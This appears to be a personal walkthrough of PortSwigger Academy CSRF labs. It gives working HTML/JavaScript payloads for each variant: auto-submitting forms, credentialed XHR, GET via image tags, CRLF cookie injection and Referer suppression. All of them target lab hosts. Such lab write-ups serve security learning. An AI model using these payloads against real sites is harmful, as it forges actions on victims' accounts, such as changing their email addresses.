 # Burp Suite (Cross-site request forgery)

## Lab: CSRF vulnerability with no defenses

A legitimate request to change the URL looks like this

```text
POST /my-account/change-email HTTP/1.1
Host: ac811f431eeaea8bc0c70a9d00860040.web-security-academy.net
Cookie: session=<REDACTED>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: https://ac811f431eeaea8bc0c70a9d00860040.web-security-academy.net
Referer: https://ac811f431eeaea8bc0c70a9d00860040.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=test123123%40test.com
```

In order to create a CSRF payload, we need to make sure it's a simple request so that the preflight request is not sent. 

```text
<html>

<script>
function put() {
xhr = new XMLHttpRequest();
xhr.open("POST", "https://ac811f431eeaea8bc0c70a9d00860040.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=test123123%40test.com");
</script>

<body onload="put()">
</body>
</html>
```

## Lab: CSRF where token validation depends on request method

This one was very simple. As the name suggests, we need to change the request method to bypass the CSRF token validation. The portswigger learning material suggest starting with GET requests, so I did just that and it worked right away. 

```html
<html>

<body>

<img src="https://ac341fce1e526d48c09620b8000a009c.web-security-academy.net/my-account/change-email?email=test123@1test123.com"/>

<body>

</html>

```

## Lab: CSRF where token validation depends on token being present

This one is also as the name suggests, just send the request without the token present. 

```html
<html>
    <body>
        <form action="https://ac341f851fd36ff9c04334a00066009d.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Lab: CSRF where token is tied to non-session cookie

The wiener user key and token are:
```text
csrfKey=NasDIKNGTlh331nyYBjc3DH3gR0wiqex
csrf=JnRbd0xm0AN1gAwGgyvLx8ImWnAVH8gE
```

carlos user key and token are:
```text
csrfKey=1tPCQvcdJld5TL4Wdd3WKkmqQ7RDLxRd
csrf=N3Jp8GJiixQ5blra9YfwoB13
```

So we need to do a CLRF attack to set the csrfKey to the one I want. Each Set-Cookie can only set one value. 
```
The Set-Cookie HTTP response header is used to send a cookie from the server to the user agent, so that the user agent can send it back to the server later. To send multiple cookies, multiple Set-Cookie headers should be sent in the same response.
```

The answer is below:

```html

<html>

<head></head>

<body>

<img/src="https://acf41ff21f230e97c06294fc00380058.web-security-academy.net/?search=aaaaa%0D%0ASet-Cookie:csrfKey=NasDIKNGTlh331nyYBjc3DH3gR0wiqex" />

<script>

xhr = new XMLHttpRequest();
xhr.open("POST", "https://acf41ff21f230e97c06294fc00380058.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=abcd%40abcd.com&csrf=JnRbd0xm0AN1gAwGgyvLx8ImWnAVH8gE");

</script>


</body>

</html>
```

Here first we are doing a search query to perform a header injection where we add another Set-Cookie header and our CSRF key. The second one is making a XMLHttpRequest with the associated CSRF value for that key. 


## Lab: CSRF where token is duplicated in cookie

Similar to the above one but the CLRF injection and the POST payload will have the same csrf token this time. 

```html

<html>

<head></head>

<body>

<img/src="https://acf41ff21f230e97c06294fc00380058.web-security-academy.net/?search=aaaaa%0D%0ASet-Cookie:csrfKey=NasDIKNGTlh331nyYBjc3DH3gR0wiqex" />

<script>

xhr = new XMLHttpRequest();
xhr.open("POST", "https://acf41ff21f230e97c06294fc00380058.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=abcd%40abcd.com&csrf=NasDIKNGTlh331nyYBjc3DH3gR0wiqex");

</script>


</body>

</html>

```


## Lab: CSRF where Referer validation depends on header being present

This one was also pretty simple. They title kinda gives it away but essentially they are using referrer header to check if the request is cross domain and the fallback here is that if the referrer header is missing, they don't do the check at all. So we can make sure that the referrer header is not present from our exploit server when making the cross domain request. 

```html

<html>

<head>
<meta name="referrer" content="no-referrer">
</head>

<body>

<script>

var xhr = new XMLHttpRequest();
xhr.open("POST", "https://ac2e1f921f4807fdc096bf7d00c4005f.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=tsdfsdfsdf%40test.com");

</script>

</body>

</html>

```

## Lab: CSRF with broken Referer validation

